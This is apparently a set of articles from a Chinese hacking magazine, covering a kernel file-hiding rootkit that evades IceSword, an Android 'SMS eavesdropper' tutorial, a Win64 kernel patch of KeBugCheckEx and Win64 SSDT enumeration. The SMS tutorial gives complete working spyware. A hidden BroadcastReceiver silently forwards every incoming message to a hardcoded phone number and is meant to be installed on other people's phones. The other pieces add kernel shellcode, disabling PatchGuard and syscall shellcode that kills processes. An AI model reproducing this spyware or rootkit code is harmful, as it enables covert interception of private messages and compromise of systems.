- 1. 在 IRP 请求完成例程中，检测 `Flags` 是否为 `SL_RETURN_SINGLE_ENTRY` 的时候，必须要通过栈单元来访问 `Flags`，但是当时不知道，所以直接使用当前栈单元，结果出错。因为执行 `IofCompleteRequest` 时，该函数会将当前栈单元设置为上层的栈单元。在 `MyCompletionRoutine` 的完成例程中，当前的栈单元其实是文件系统设备的栈单元的上一个栈单元，而我以为这 2 个栈单元的数据是一样的，结果错误。后来，我在 `MyCompletionRoutine` 中调用 `IoGetNextIrpStackLocation` 来获取下一个栈单元，结果还是错误。原来文件系统设备的栈单元已经在 IRP 完成后更改了，所以最后想到在设置完成例程的时候将当前栈单元保存，并将地址赋予 `Context` 域。
- 2. 本来以为文件系统的栈单元是没有被设置完成例程的，结果使用冰刃的文件功能就蓝屏。后来发现冰刃设置了 IRP 完成例程，解决方法就是在处理完 IRP 返回的数据后，调用老的完成例程。

如果要想检测到这样的方式隐藏的文件，可以绕过文件系统，向磁盘发送 IRP 来检测。

最后附一张测试截图如图 1 所示。C 盘下是有 `hack.sys`，但是冰刃并没有检测到。


图 1

本文在 VS2010+WDK7600 编译成功，在 VM+XP SP3 中通过测试。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：Java  
关键词：Android，安全，短信

# Android 操作系统安全研究系列——短信劫持器


图/文 黑酷

现在智能手机越来越多，目前市场上的智能手机的操作系统大概分为 Symbian、Windows Mobile、Linux、Palm、Mac OS，还有最新的 Android 和 OMS。虽然现在智能手机的功能越来越丰富，但是在智能手机的安全方面还存在很多不足，即使现在已经有了一些智能手机杀毒软件，但是仍不能全面地保证智能手机的安全。下面我给大家介绍一下如何通过编程的方法来实现窃听别人手机的短信——手机短信窃听器。

## 准备工作

首先，要开发基于 Android 操作系统的手机短信窃听器，就必须要搭建一个 Android 软件开发环境，我采用的开发环境主要包括如下工具：

- 1. Java 的 IDE 开发工具——Eclipse。
- 2. Java 开发包——Java SE Development Kit（JDK）JDK 6。
- 3. Android 开发包——Android SDK。
- 4. Android 开发插件（ADT plugin）。

环境搭建步骤如下。

### 1．JDK 的安装

首先，我们先安装 JDK。可到 http://cds-esd.sun.com/.../jdk-6u23-windows-i586.exe 这个网站上下载 JDK，下载以后进行安装，安装步骤很简单，一直点“下一步”即可，如图 1 所示。


图 1

### 2．SDK 的安装

下面安装 Android 开发包——Android SDK，我们可以到 Google 的官方网站下载，但是在国内官方下载地址打不开，我们就到 http://www.android123.com.cn/ 这个网站上去下载。下载完后会得到一个压缩包，把这个压缩包解压之后会看到这样几个文件，如图 2 所示。


图 2

然后，运行“SDK Manager.exe”，进行 Android SDK 的安装。在安装的过程中或许有一点慢，因为需要联网去下载各个版本的 SDK，下载速度和你的网速有关。如果你想快一点的话，可以仅下载你所需要版本的 SDK。我开发这个手机短信窃听器的程序是基于 2.2 版本，所以你最少下载 2.2 版本的 SDK。

我安装的时候是选择所有版本下载的，在“Choose Packages to Install”菜单点击“Accept All”，然后再点击“Install”就完成了（如图 3 所示）。如果你只下载 2.2 版本的话，在 Packages 栏里的“SDK Platform Android 2.2, API 8, rev......”，然后点击下面的“Install”进行安装即可。


图 3

### 3．Eclipse 和 ADT 插件的安装

安装完 SDK 以后，下面我们再安装 Java 的 IDE 开发工具——Eclipse。要安装 Java 的 IDE 开发工具——Eclipse，首先要到 www.eclipse.org 这个网站去下载最新版本的 Eclipse，解压即可。

下面安装 ADT。首先启动安装完的 Eclipse 目录下的 Eclipse.exe，点击菜单“Help”->“Install New Software...”，在 Install 菜单里的 Work with 的右边加入以下地址：“https://dl-ssl.google.com/android/eclipse/”。选择“Developer Tools”，选择它下面所有的插件，然后点击“NEXT”按钮（如图 4 所示）。Eclipse 此时会从加入的地址中自动下载跟安装 ADT，稍等一会，安装完毕后，提示需要重启 Eclipse，点击完成，重启 Eclipse。


图 4

重启 Eclipse 之后，运行 ADT 的时候打开显示是无法打开此菜单，这时候我们需要配置一下。首先，点击“Window”→“Preferences”→“Android”，然后在 SDK Location 的右边填写上你安装 SDK 的路径，然后点“OK”按钮（如图 5 所示），即可完成 ADT 的安装和配置。


图 5

安装完 ADT 以后，必须创建一个 Android 虚拟机。怎么创建呢？要创建一个 Android 虚拟机，首先点击 Eclipse 工具栏里的 ADT 图标，然后点 New，在 Name 的右边随便写几个非常好记的名字；在 Target 的右边随便选上一个版本，我选择的版本是 2.2，因为这是最新的版本；然后在 SDcard 的右边写上手机的 SDcard 的大小，我写的是 256，我认为 256 应该够了；然后在下面的 Built-in 的右边选择 HVGA，最后点击下面的 Create AVD，如图 6 和图 7 所示。

手机短信窃听器的原理如下：上面写的是建立 Android 开发环境，下面介绍一下手机窃听器的功能。手机短信窃听器的功能就是当你把手机窃听器的软件发送到别人的 Android 操作系统手机上安装以后，那个人接收到的短信都会给指定的号码转发过去。


图 6


图 7

知道了短信窃听器的功能，下面说说短信窃听器的原理。当系统接收到短信的时候，会发出一个 action 名称为 `android.provider.Telephony.SMS_RECEIVED` 的广播 Intent，这个意图存放了接收到的短信内容，通过名称“pdus”可以从 Intent 中获得短信内容，然后再把这些短信内容的格式改成短信的格式，最后再发送给指定的手机号。

## 编写代码

在建立好环境和了解短信窃听器原理的基础上，下面通过编程来实现短信窃听器的功能。

### 广播接收者简介

我们在正式编写 Android 的手机短信窃听器之前，必须知道什么是广播接收者。广播接收者（BroadcastReceiver）用于异步接收广播 Intent。广播 Intent 的发送是通过调用 `Context.sendBroadcast()`、`Context.sendOrderedBroadcast()` 或者 `Context.sendStickyBroadcast()` 来实现的。通常一个广播 Intent 可以被订阅了此 Intent 的多个广播接收者所接收。

要实现一个广播接收者，方法如下：

第一步，继承 BroadcastReceiver，并重写 `onReceive()` 的方法。

```java
public class IncomingSMSReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
    }
}
```

第二步，订阅感兴趣的广播 Intent，订阅可以用以下方法。

在 `AndroidManifest.xml` 文件中的 `<application>` 节点里进行订阅：

```xml
<receiver android:name="IncomingSMSReceiver">
    <intent-filter>
        <action android:name="android.provider.Telephony.SMS_RECEIVED"/>
    </intent-filter>
</receiver>
```

### 核心功能代码编写

下面我们就利用广播接收者来编写一个短信窃听器。首先建立一个 Android 工程项目，在“New Android project”菜单中填写 `project name`，选择 `Build Target` 的 Android SDK 版本，在 `properties` 中填写 `Application name` 与 `Package name`，并设置 `Create Activity` 与 `Min SDK Version`，最后点击 `Finish` 完成项目创建，如图 8 所示。

在项目创建完成后，必须把 Activity 删掉：在 `AndroidManifest.xml` 里把有关 Activity 的代码删除，如图 9 所示。

接下来我们建立一个广播接收者，右键项目中的 `src` 目录，选择“NEW”菜单中的“CLASS”来创建一个类。


在“New Java Class”窗口中的“Name”框中写上广播接收者的类名，然后在“Superclass”的后面点击“Browse...”，选“android.content.BroadcastReceiver”来继承广播接收者父类，最后点击“Finish”按钮以完成广播接收者的创建，如图 10 所示。


下面开始编写核心功能代码，首先在 `src->SmsListener.java` 中编写如下代码：

```java
Bundle bundle = intent.getExtras();
```

这行代码的作用是通过 `intent.getExtras` 函数获得意图。

```java
if (bundle != null) {
    Object[] pdus = (Object[]) bundle.get("pdus");
    SmsMessage[] messages = new SmsMessage[pdus.length];
    for (int i = 0; i < pdus.length; i++) {
        messages[i] = SmsMessage.createFromPdu((byte[]) pdus[i]);
    }
}
```

这段代码的意思是判断这条意图是不是为空，如果意图存在，那么通过 `bundle.get` 函数在意图中得到 pdus 的内容信息。但是，所得到的这条信息格式不是我们想要的，所以通过 `SmsMessage.createFromPdu` 函数把 pdus 格式转换成短信息格式。

```java
SmsManager manager = SmsManager.getDefault();
for (SmsMessage msg : messages) {
    String content = msg.getMessageBody();
    String sender = msg.getOriginatingAddress();
    Date date = new Date(msg.getTimestampMillis());
    SimpleDateFormat format = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");
    String time = format.format(date);
    String text = time + "," + sender + "," + content;
    manager.sendTextMessage("15636861600", null, text, null, null);
}
```

这段代码的意思是创建一个名为 manager 的短信管理器，通过 `SmsManager.getDefault()` 函数得到 Android 默认的短信管理器并赋值给 manager。因为下面要用 manager 发送短信给指定的手机号，故通过 `msg.getMessageBody()` 函数获得短信内容并赋值给 content，再通过 `msg.getOriginatingAddress()` 函数获得短信来源（发送者的手机号）地址并赋值给 sender，再通过 `msg.getTimestampMillis()` 函数获得短信接收时间并赋值给 date，然后通过 `format.format` 函数将 date 格式转换为字符串类型并赋值给 time，将时间、发送地址还有信息内容合并赋值给 text。最后通过 `manager.sendTextMessage` 函数将这条信息发送给被指定的手机号码。

核心配置如下：

订阅广播意图的步骤是：在 `AndroidManifest.xml` 里，在 `<application>` 标签的下面把这几行代码写上：

```xml
<receiver android:name=".SmsListener">
    <intent-filter>
        <action android:name="android.provider.Telephony.SMS_RECEIVED"/>
    </intent-filter>
</receiver>
```

这段代码是订阅接收短信的广播意图。当手机接收到短信的时候，系统就会发出一个名为“android.provider.Telephony.SMS_RECEIVED”的广播意图，当这个意图与我们订阅的意图匹配时，就会执行我们编写的代码。

下面我们还需要为程序增加权限。可以在 `AndroidManifest.xml` 里使用 `<uses-permission>` 标签来实现权限的添加。

```xml
<uses-permission android:name="android.permission.RECEIVE_SMS"/>
```

这条代码是允许接收短信的权限。这条代码起到了能接收到短信的作用，如果不写这个权限，那么我们的程序就无法接收到短信了。

```xml
<uses-permission android:name="android.permission.SEND_SMS"/>
```

这是允许程序发送 SMS 短信的权限。如果不加这个权限，那么窃听器就没法将窃听到的信息发送给我们了，所以必须加这个权限。

## 编译测试

现在终于大功告成了，完成了所有代码的编写。现在我们将代码编译一下，并使用虚拟机测试一下效果，看看这个好不好用。编译测试的方法很简单（如图 11 和图 12 所示）：右键窃听器工程目录，选择“Run As”->“1 Android Application”进行编译调试。

我们的试验方法是，将短信窃听者安装在 5554 上。短信窃听者功能是：将 5554 接收到的短信发给 5556。然后我们用 5558 给 5554 发短信，那么短信窃听者就会偷偷地把这个短信发送给 5556，效果如图 12 所示。

- 1. 不要在陌生的网站上下载陌生的软件，因为有可能你所下载的软件就是恶意插件，这些恶意插件有可能会使你的手机使用不方便。
- 2. 尽可能地不要与陌生人使用蓝牙传递文件以及工具，因为有可能别人给你传递的文件或者工具中就会有恶意插件，以及类似于手机短信窃听器的插件。
- 3. 下载杀毒软件，因为杀毒软件有利于杀死一些恶意插件。


图 11


图 12

以上的方法就可以防止一些恶意插件侵入手机。好了，到这里也应该结束了。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：驱动

关键词：Win64，蓝屏，KeBugCheckEx

# 再谈在 Win64 上反蓝屏


图/文 胡文亮

大约在半年前，我提出了在 `KeBugCheckEx` 里死循环的办法来反蓝屏，但是一旦有一个线程引发了蓝屏，就会导致 CPU 的一个核心满载。说实话，这个反蓝屏的方法不太实用。那篇文章写成后，我一直在寻找更好的解决方案，此后我还试过用栈回溯的方法来反蓝屏，可惜惨遭失败，后来一度失去了继续反蓝屏的信心。最近我的笔记本电脑更换了新的显卡，打游戏时总是引发 NVIDIA 显卡驱动 `ntddkm.sys` 蓝屏，错误代码是 `0x116`。这个蓝屏为什么会发生，网友们众说纷纭。有的认为是非官方版的 BIOS 有 bug，有的认为是 CPU 和显卡同时超频导致供电不足，但两种说法的共同点都是，它们都导致了显示驱动的崩溃。显示驱动崩溃并没有蓝屏，而是因为没有成功恢复显示驱动导致蓝屏了（详见：http://msdn.microsoft.com/en-us/library/ff557263(v=VS.85).aspx）。我在紫水晶编程技术论坛上提问如何反蓝屏时，sy 网友给出了一句话的答案：“创建一个 EVENT，然后无限等待，再然后线程就死在那儿，也就不会被调度了，不占 CPU”。真可谓一言惊醒梦中人，这句话基本就是本文的思路了，但我没有创建事件，而是用了另外一个巧妙的方法。不过说起来容易做起来难，真正把代码写出来还是有一定难度的。除了需要一定的 Windows 内核知识，还需要 X64ASM 知识。

首先介绍一个常识给不太熟悉 Windows 机制的朋友。在现实生活中，我们做的很多事情都要在另外一件事情发生完了之后才能执行，在此之前只能等待。比如我要买新显卡，必须等我有了钱才行。在我有钱之前，是无法购买新显卡的。如果某个线程要等待一个事件（或互斥体、信号灯、计时器、线程、进程等）发生了某种变化才继续执行，可以使用 `WaitForSingleObject` 函数。在内核里也有类似的函数，叫 `KeWaitForSingleObject`。

那么，我们给 `KeBugCheckEx` 打补丁的目的，无非就是不想让 `KeBugCheckEx` 执行下去。那怎么拖延呢？一个简单的办法就是，要求 `KeBugCheckEx` 在 System 进程结束之后再执行。这条件当然是不可能达到的，因为 System 进程是不能被结束的，因此也就永远阻止了 `KeBugCheckEx` 的执行。首先看一段简单的伪代码，了解 `KeWaitForSingleObject` 的作用：

```c
VOID Test()
{
    DbgPrint("BEGIN");
    KeWaitForSingleObject(记事本进程的 EPROCESS,
        Executive, KernelMode, FALSE, NULL);
    DbgPrint("END");
}
```

当 Test 函数执行完第一个 `DbgPrint` 打印出 BEGIN 后，并不会马上执行第二个 `DbgPrint` 打印出 END，而是记事本进程结束后才会执行下一个 `DbgPrint`，打印出 END。根据这一特性，我们只要把调用 `KeWaitForSingleObject` 的机器码直接写在 `KeBugCheckEx` 的函数体上，就能防止蓝屏了。由于 `KeWaitForSingleObject` 在等待时不占用 CPU，而且在等待中的线程可以被结束掉（之前的那个方法不能被结束，只是卡死，还让一个核心满载），所以这个方法比较有实用价值。

用汇编调用 `KeWaitForSingleObject` 的代码如下（x64 上 fastcall 的具体调用规定请参考我以前的文章或上网查资料，本文不再赘述）：

```asm
sub rsp, 38h                    ;\x48\x83\xEC\x38
mov rcx, 1234567887654321h      ;\x48\xB9\x21\x43\x65\x87\x78\x56\x34\x12
                                ; <- 这里是 SYSTEM 进程的 EPROCESS
xor rdx, rdx                    ;\x48\x33\xD2
xor r8, r8                      ;\x4D\x33\xC0
xor r9, r9                      ;\x4D\x33\xC9
xor rbx, rbx                    ;\x48\x33\xDB
mov [rsp+20h], rbx              ;\x48\x89\x5C\x24\x20
call FFFFFFFF                   ;\xE8\xFF\xFF\xFF\xFF
                                ; <- 这里要调用 KeWaitForSingleObject，机器码需计算
```

```asm
add rsp, 38h    ;\x48\x83\xC4\x38
```

小提示：获得 64 位汇编的机器码其实不用 IDA 等高级工具，用我做的小软件 X64ASM2BIN 就行，如图 1 所示。


下载地址：http://www.vbasm.com/thread-5651-1-1.html

解释两点：

- 1. System 进程的 EPROCESS 可以直接在 DriverEntry 里获得，使用 `PsGetCurrentProcess()` 即可。
- 2. 调用 `KeWaitForSingleObject` 还是可用 32 位下的 `E8 XX XX XX XX`，这是因为我们的 shellcode 是直接写在 `KeBugCheckEx` 函数体上的，而 `KeBugCheckEx` 的函数体隶属于 `ntoskrnl.exe`。一个驱动的大小是被限制在 4GB（实际上大家想想你们见过的最大的驱动有多大？反正我见过最大的驱动就是显卡驱动，单个 sys 文件 20 多 MB），所以同一个驱动里的函数去调用另一个函数，能直接使用 `call (e8)` 而不用使用 `call qword ptr (ff 15)`。

接下来就是代码实现了：

```c
VOID AntiBugCheck()
{
    ULONG32 callcode;
    ULONG64 syseproc;
    KIRQL OldIrql;
    UCHAR fuIckcode[]= "\x48\x83\xEC\x38\x48\xB9...\x48\x83\xC4\x38";

    // get address
    PVOID bcaddr = GetFunctionAddr(L"KeBugCheckEx");
    PVOID kewfso = GetFunctionAddr(L"KeWaitForSingleObject");
    syseproc = (ULONG64)SystemEPROCESS; // 这个 SystemEPROCESS 在 DriverEntry 里取得

    // set shellcode
    callcode = (ULONG32)(((ULONG64)kewfso - ((ULONG64)bcaddr + 31)) - 5);
    memcpy(fuIckcode+6, &syseproc, 8);
    memcpy(fuIckcode+32, &callcode, 4);

    // patch
    WPOFFx64();
    OldIrql = KeRaiseIrqlToDpcLevel();
    RtlFillMemory(bcaddr, 100, 0x90);
    ...
}
```

```c
RtlMoveMemory(bcaddr, fuckcode, 40);
KeLowerIrql(OldIrql);
WPONx64();
}
```

接下来是测试。打开测试签名模式并给驱动加上测试签名后加载，用 Windbg 查看可以发现函数体变成了下面的样子：

```text
lkd> u KeBugCheckEx
nt!KeBugCheckEx:
fffff800`03c71f00 4883ec38 sub rsp,38h
...
nt!KeBugCheckEx+0x24:
fffff800`03c71f24 4883c438 add rsp,38h
fffff800`03c71f28 90 nop
fffff800`03c71f29 90 nop
...
```

接下来测试一下效果。由于有 PatchGuard 存在会干扰我们的测试，所以我们有必要先禁用 PatchGuard。禁用 PatchGuard 的工具是一个外国朋友给我的，原理是 Patch 内核文件并创建新的系统启动项……使用方法很简单，依次运行 1.cmd、2.exe（运行后按下 Patch 按钮即可）、3.cmd 即可，如图 2 所示。

图 2

然后重启系统，就能看到这个画面，如图 3 所示。

图 3

说个邪恶的想法，如果有恶意软件利用这个程序，把“PatchGuard Disabled v2”修改成类似“Windows 7 雨林木风防黑屏内部 VIP 版”的字样，不明真相的群众肯定会毫不犹豫地选择这个选项。没有了 PatchGuard 的保护，任何来历不明的驱动都可以加载，任何函数都可以挂钩，Win32 里的“驱动斗法”场景会再次出现。而“驱动斗法”基本上都是以恶意软件胜利而告终的。

先是经典的 RtlSetProcessIsCritical + ExitProcess 导致蓝屏。测试结果证明，没有蓝屏。而且 DbgView 里打印出了“Terminating critical process 0xFFFFFA80032B53F0 (BSODTEST.exe)”字样。这不是我干的，应该是系统干的，如图 4 所示。

图 4

接下来测试显卡驱动的蓝屏，使用 KeBugCheckEx 的 0x116 错误号：

```c
#include <ntddk.h>
NTKERNELAPI VOID KeBugCheckEx(ULONG BugCheckCode, ULONG_PTR BugCheckP1, ULONG_PTR BugCheckP2, ULONG_PTR BugCheckP3, ULONG_PTR BugCheckP4);

VOID OnUnload(IN PDRIVER_OBJECT DriverObject)
{
    DbgPrint("BSOD UnLoad.");
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
    DriverObject->DriverUnload = OnUnload;
    DbgPrint("BSOD now.");
    KeBugCheckEx(0x116, 0x0, 0x0, 0x0, 0x7);
    return STATUS_SUCCESS;
}
```

测试结果显示，加载驱动的进程卡住，但是可以用任务管理器结束，如图 5 所示。

图 5

最后测试一个经典的内存读写错误，相信这种错误初学者都犯过：

```c
#include <ntddk.h>
VOID OnUnload(IN PDRIVER_OBJECT DriverObject)
{
    DbgPrint("BSOD UnLoad.");
}

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
    char x;
    DriverObject->DriverUnload = OnUnload;
    DbgPrint("Read/Write ERROR address now!");
    x = *(char*)0;   // 读零地址的值
    *(char*)0 = 0;   // 给零地址赋值
    return STATUS_SUCCESS;
}
```

测试结果是，加载此驱动的进程卡死，但可以用任务管理器结束它，如图 6 所示。说实话我就不明白，既然读/写错误地址可以不蓝屏，为什么微软却要使之蓝屏呢？莫非不知道有句话叫“得饶人处且饶人”？

- 调用 fastcall 函数的堆栈大小问题：如果某函数有 `N` 个参数，必须申请 `[(N+2)*8]` 字节的堆栈。
- `RtlFillMemory` 原型和 `memset` 的原型不同，它们的第二个和第三个参数位置相反。

```c
VOID RtlFillMemory(VOID *Destination, SIZE_T Length, UCHAR Fill);
VOID memset(VOID *Destination, UCHAR Fill, SIZE_T Length);
```

虽然这种方法比较完美，但也不是绝对完美的。我目前发现的唯一恶果就是无法直接关机（ExitWindowsEx 无效），必须使用 ZwShutdownSystem 才行。当然出现这个后果也在情理之中。由于估计玩 Win64 内核的朋友不多，所以录了像给大家看。当然，这种方法能防止的蓝屏，仅仅是“可以控制的蓝屏”，如果大量破坏内核数据，结束系统所有线程，那么即使是神仙，也无法阻止蓝屏。本文到此结束了，不过我的故事没有结束。虽然防止了蓝屏，但显卡驱动崩溃而且恢复失败后，游戏的 FPS 瞬间下降到个位数，然后出错退出。经过几天的折腾，我退了新显卡，换回了旧显卡，伤心的我再也不用笔记本玩 GTA4 了。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：驱动

关键词：Win64，SSDT，动态枚举

# 在 Win64 上动态枚举 SSDT

图/文 胡文亮

上一次我的文章初步介绍了 Win64 上 SSDT 的概括，并给出了得到 Win64 上 SSDT 基址以及函数地址的办法，不过并没有实现动态枚举 SSDT。经过将近半个月的研究，终于发现了动态枚举 SSDT 的办法，于是再发文来解释一下思路，并送上实现的代码。在研究过程中，我发现了一个“奇怪的现象”，虽然这个……

“奇怪的现象”不会对本文的发现和结论在实际应用和商业化中造成任何不良影响，但是对于我这种追求完美的人来说是一个永远的遗憾。至于这个“奇怪的现象”是什么，这里卖个关子先不讲。

枚举 SSDT 的基本步骤是什么呢？首先是要获得 NTDLL.DLL 中所有 Zw 开头的函数的名字，然后获得它们在 SSDT 中的函数编号，再然后获得它们在 SSDT 中的函数地址。什么？明明 SSDT 里的函数都是 Nt 开头的，为什么要获得 Zw 开头的函数的名字？这里就不得不问一个鲜为人知的问题。大家觉得 NTDLL.DLL 里 Nt 开头（注：Nt 开头的函数是指 Nt 之后的首个字母是大写，即此函数的第三个字母是大写，所以 NtdllDefWindowProc_A 不算是 Nt 开头的函数，而算是 Ntdll 开头的函数）的函数和 Zw 开头的函数是不是一样多？

其实 NTDLL.DLL 里 Nt 开头的函数和 Zw 开头的函数的数目并不相等。以 Win7 x64 为例，NTDLL.DLL 里共有 Nt 开头的函数 402 个，Zw 开头的函数 401 个。那么多出了哪个函数呢？经我查找，是 NtGetTickCount。在 NTDLL.DLL 只有 NtGetTickCount，没有 ZwGetTickCount。而且内核里既没有 NtGetTickCount，也没有 ZwGetTickCount。所以，SSDT 中的函数与 NTDLL.DLL 中所有 Zw 开头的函数名字一一对应，除了前缀由 Zw 变成了 Nt。

那么怎么获得 NTDLL.DLL 中 Zw 开头的函数呢？标准方法是通过解析 PE 结构得到。不过这种方法太过于麻烦，所以在此我介绍一种 Quick && Dirty 的方法。这里不解析 PE 结构，直接得到 DLL 中导出表的所有函数。方法如下（Naylon 原创）：

- 以文本方式打开 DLL 文件。
- 将 DLL 的所有内容当作文本读入到内存。
- 在这段文本里搜索【DLL名.DLL】，然后紧接着的就是所有导出函数的名字，每个之间间隔一个 NULL，分析字符串即可取得。

经我验证，此方法通用于 PE 和 PE+ 格式文件。由于我们的定位明确，直接寻找所有 Zw 开头的函数，所以第三步就不用先搜索【NTDLL.DLL】了，直接搜索包括 ZwAcceptConnectPort 和 ZwYieldExecution 之间的所有函数即可。由于每个函数之间都隔着一个 NULL，所以直接用 strlen + strcpy 并移动指针就能得到所有的函数名了，十分方便。

接下来就是获取函数的 SSDT 编号（以下简称 index）。获取编号还是很简单的，因为几乎所有函数（只有一个除外）的反汇编代码都与下面的类似：

```text
4c8bd1          mov   r10, rcx
b8??000000      mov   eax, ??h
0f05            syscall
c3              ret
```

其中 ?? 代表函数在 SSDT 中的编号，所以找出 index 的方法就是获得函数的地址，然后取函数地址 +4 的 DWORD 值即可。代码如下：

```c
DWORD GetSSDTFunctionIndex(char *FunctionName)
{
    return *(DWORD*)((PUCHAR)GetProcAddress(LoadLibraryW(L"ntdll.dll"), FunctionName) + 4);
    /*
    PUCHAR fptr = (PUCHAR)GetProcAddress(LoadLibraryW(L"ntdll.dll"), FunctionName);
    DWORD index = *(DWORD*)(fptr + 4);
    return index;
    */
}
```

接下来就要解释那个“奇怪的现象”了，唯一与其他 400 个函数的反汇编代码不相似的函数是 ZwQuerySystemTime，它的反汇编代码是这样的：

```text
0:000> u ZwQuerySystemTime
ntdll!ZwQuerySystemTime:
00000000`77c10450 e91b62fdff      jmp ntdll!RtlQuerySystemTime (00000000`77be6670)
00000000`77c10455 6666660f1f840000000000  nop word ptr [rax+rax]

0:000> u 00000000`77be6670
ntdll!RtlQuerySystemTime:
00000000`77be6670 488b04251400fe7f   mov rax,qword ptr [SharedUserData+0x14]
00000000`77be6678 488901             mov qword ptr [rcx],rax
00000000`77be667b eb00               jmp ntdll!RtlQuerySystemTime+0xd (00000000`77be667d)
00000000`77be667d 33c0               xor eax,eax
00000000`77be667f f3c3               rep ret
```

这就非常奇怪了，后来我上 MSDN 查了一下这个函数，发现此函数貌似不太受微软欢迎，微软表示以后要取消这个函数：

> 来自：http://msdn.microsoft.com/en-us/library/ms724512(v=vs.85).aspx  
> NtQuerySystemTime may be altered or unavailable in future versions of Windows. Applications should use the GetSystemTimeAsFileTime function.

不知道是不是因为这个原因，导致这个函数的反汇编结果十分奇怪？看来要获得 ZwQuerySystemTime 的 index 别无他法，只能借助于 Windbg 来人工查询了：

```text
lkd> u ZwQuerySystemTime
nt!ZwQuerySystemTime:
fffff800`0167bfa0 488bc4    mov rax,rsp
fffff800`0167bfa3 fa        cli
fffff800`0167bfa4 4883ec10  sub rsp,10h
fffff800`0167bfa8 50        push rax
fffff800`0167bfa9 9c        pushfq
fffff800`0167bfaa 6a10      push 10h
fffff800`0167bfac 488d053d270000 lea rax,[nt!KiServiceLinkage]
fffff800`0167bfb3 50        push rax
fffff800`0167bfb4 b857000000 mov eax,57h
fffff800`0167bfb9 e9825e0000 jmp nt!KiServiceInternal
```

如果你问我 Windbg 怎么就会知道 ZwQuerySystemTime 的地址，那我告诉你，Windbg 是通过“符号”文件获得 ZwQuerySystemTime 的地址的。用“符号”文件能获得任何函数的地址，可惜“符号”文件很大，通常有几 MB。

从反汇编代码中可以看出，0x57 就是此函数的 index。通过上期《详解 Win64 上的 SSDT》一文中给出的计算公式，对比 NtQuerySystemTime 的地址，证明了 0x57 确实是 ZwQuerySystemTime 的 index。虽然得到了 NtQuerySystemTime 的 index，但是我想尝试看此函数能否用 syscall 的调用。

复制 ZwTerminateProcess 所有的机器码，来测试函数功能：

```c
typedef NTSTATUS (__fastcall *SCTERMINATEPROCESS)(HANDLE, NTSTATUS);
NTSTATUS MyTerminateProcess(HANDLE ProcessHandle, NTSTATUS ExitStatus)
{
    UCHAR strShellCode[] = {"\x4c\x8b\xd1\xb8\x29\x00\x00\x00\x0f\x05\xc3"};
    // mov r10,rcx; mov eax,29h; syscall; ret
    ...
}

int main()
{
    printf("[KILL_PROCESS] Input process id:");
    scanf("%d", &pid);
    ...
}
```

经测试，使用 MyTerminateProcess 与直接使用 ZwTerminateProcess 无异，能结束任何没有保护的进程，此实验证明直接复制 NTDLL 中的机器码是可行的。

按照其他 400 个函数的模式，填写 ZwQuerySystemTime 的 index 进机器码中，与直接调用 NTDLL.DLL 中的 ZwQuerySystemTime 对比：

```c
typedef NTSTATUS (__fastcall *NTQUERYSYSTEMTIME)(PLARGE_INTEGER);
void DirectCall_NtQuerySystemTime()
{
    LARGE_INTEGER li = {0};
    NTQUERYSYSTEMTIME NtQuerySystemTime;
    NtQuerySystemTime = (NTQUERYSYSTEMTIME)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtQuerySystemTime");
    NtQuerySystemTime(&li);
    printf("%llx", li.QuadPart);
}

typedef NTSTATUS (__fastcall *SCQUERYSYSTEMTIME)(PLARGE_INTEGER);
void ShellCode_NtQuerySystemTime()
{
    UCHAR strShellCode[] = {"\x4c\x8b\xd1\xb8\x57\x00\x00\x00\x0f\x05\xc3"};
    // mov r10,rcx; mov eax,57h; syscall; ret
    ...
}
```

奇怪的事情出现了，这两个函数的返回结果有很大的不同。虽然每次调用 NtQuerySystemTime 的结果肯定都会不同，但是至少前半部分是相同的。但从三次直接调用 NtQuerySystemTime 和一次 ShellCode 方式调用 NtQuerySystemTime 的返回结果来看，差别非常明显，如图 1 所示。

图 1

很明显，ShellCode_NtQuerySystemTime 的执行结果……是错误的。这就是说，NtQuerySystemTime 不能通过 syscall 来调用。出现这种情况，我的猜测如下：NtQuerySystemTime 是个使用频率很高的函数，既然能在 Ring 3 实现，就不必进入 Ring 0 实现再将结果返回 Ring 3 了（从反汇编代码中看出）。

上面说这么多绕人的话，表达的意思只有一个：在 Ring 3 无法获取 NtQuerySystemTime 的 index（至少我没有想到什么办法）。如果要枚举 SSDT，这一项只能使用硬编码了。这就是我说的“永远的遗憾”（不完美），但是对实际应用和商业化没有影响。另外，Win64 的 SSDT 还有一个特点，就是函数 index 并非随着导出顺序从小到大排列，而是随机排列的。Win7 X86（如图 2 所示），Win7 X64（如图 3 所示）。


图 2


图 3

这进一步增加了编程者的困难，想用推断法来得出 NtQuerySystemTime 的 index 也是不可能的。现在，给出了我经过苦思冥想、艰难调试得出的动态枚举 SSDT 的代码：

```c
DWORD FileLen(char *filename)
{
    WIN32_FIND_DATAA fileInfo = {0};
    DWORD fileSize = 0;
    HANDLE hFind;
    hFind = FindFirstFileA(filename, &fileInfo);
    if(hFind != INVALID_HANDLE_VALUE)
    {
        fileSize = fileInfo.nFileSizeLow;
        FindClose(hFind);
    }
    return fileSize;
}

CHAR *LoadDllContext(char *filename)
{
    ...
}
```

```c
DWORD dwReadWrite, LenOfFile = FileLen(filename);
HANDLE hFile = CreateFileA(filename,
    GENERIC_READ | GENERIC_WRITE,
    FILE_SHARE_READ | FILE_SHARE_WRITE, 0,
    OPEN_EXISTING, 0, 0);
if (hFile != INVALID_HANDLE_VALUE)
{
    PCHAR buffer = (PCHAR)malloc(LenOfFile);
    SetFilePointer(hFile, 0, 0, FILE_BEGIN);
    ReadFile(hFile, buffer, LenOfFile, &dwReadWrite, 0);
    CloseHandle(hFile);
    return buffer;
}
return NULL;

VOID PrintAllSSDTFunction()
{
    DWORD i = 0, fl = 0, fs_pos = 0, fe_pos = 0,
          PauseCnt = 0, ssdt_fun_cnt = 0;
    ULONG64 ssdt_func_addr = 0;
    ...
}
```

```c
// 直接用 C:\ 即可，因为 Win64 系统无论安装在哪个分区，系统盘永远是 C 盘
CopyFileW(L"c:\\windows\\system32\\ntdll.dll", L"c:\\ntdll.txt", 0);
fl = FileLen("c:\\ntdll.txt");
char func_start[] = "ZwAcceptConnectPort";
